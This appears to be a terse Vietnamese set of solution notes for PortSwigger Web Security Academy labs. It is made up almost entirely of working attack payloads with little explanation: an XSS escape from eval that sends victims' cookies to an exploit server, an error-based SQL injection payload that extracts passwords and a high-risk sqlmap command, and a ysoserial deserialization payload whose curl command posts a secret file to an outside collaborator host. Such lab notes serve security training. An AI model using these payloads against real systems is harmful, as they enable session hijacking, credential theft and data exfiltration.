

1.

Filter dấu `()`

Payload:

``"-alert`1`-"``

eval: dùng `"}` để thoát ra, và sau đó là thực hiện các lệnh tùy ý



```
"}; location="https://exploit-0a0100750400e8038397db4d01580012.exploit-server.net/log/?c=" document.cookie; //
```

Payload exploit server
```
<script>
location="https://0a4000b304e1e8b48310dc8200ac0043.web-security-academy.net/?find=%22%7D%3B+location%3D%22https%3A%2F%2Fexploit-0a0100750400e8038397db4d01580012.exploit-server.net%2Flog%2F%3Fc%3D%22%2Bdocument.cookie%3B+%2F%2F";
</script>
```
2.

inject `ASC`

thay thế `LIMIT (1)` thì có thể thay thế 

Thay 1 bằng 1 điều kiện, nnos sẽ thực thi và báo lỗi

Payload: `LIMIT(CAST((SELECT+password+FROM+users+LIMIT+1)+AS+int))`

```bash
python sqlmap.py -u 'https://0a4000b304e1e8b48310dc8200ac0043.web-security-academy.net/filtered_search?find=ba&organize=5&order=ASC&BlogArtist=a' --cookie='session=15PsYF6zXPEvtWrGtJRkTyAUMJPWxxJM' --batch --level=5 --risk=3 --random-agent
```

3.

payload:

```bash
java -jar ysoserial.jar CommonsCollections4 'curl -d @/home/carlos/secret lf42lj1
a0ud26zfdjrau1xp67xdo1ip7.oastify.com' | gzip | base64 -w 0 > text.txt
```

